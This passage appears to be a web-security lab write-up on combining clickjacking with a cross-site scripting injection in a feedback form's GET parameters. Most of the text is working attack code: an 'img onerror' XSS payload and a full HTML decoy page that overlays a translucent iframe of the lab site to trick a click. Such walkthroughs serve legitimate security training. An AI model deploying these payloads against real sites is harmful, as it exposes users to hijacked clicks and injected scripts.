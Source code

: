 ```
</span><img src=x onerror=alert(1)><span>
```

<img width="424" height="98" alt="image" src="https://github.com/user-attachments/assets/2986ed53-2627-4201-8e51-56d50530b3c3" />


The fields can be populated using GET parameters:

```
/feedback?name=</span><img src=x onerror=alert(1)><span>&email=a@a.com&subject=a&message=a
```

<img width="811" height="311" alt="image" src="https://github.com/user-attachments/assets/5c25acb9-7058-40cb-a09c-29f5386034a6" />


Looking at this script reveals an injection point:


<img width="564" height="349" alt="image" src="https://github.com/user-attachments/assets/ff21ca1e-e24e-4c85-b860-00535fbdd1b9" />

So we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://id.web-security-academy.net/feedback?name=%3C/span%3E%3Cimg%20src=x%20onerror=print()%3E%3Cspan%3E&email=a@a.com&subject=a&message=a">
	</iframe>
</body>
```
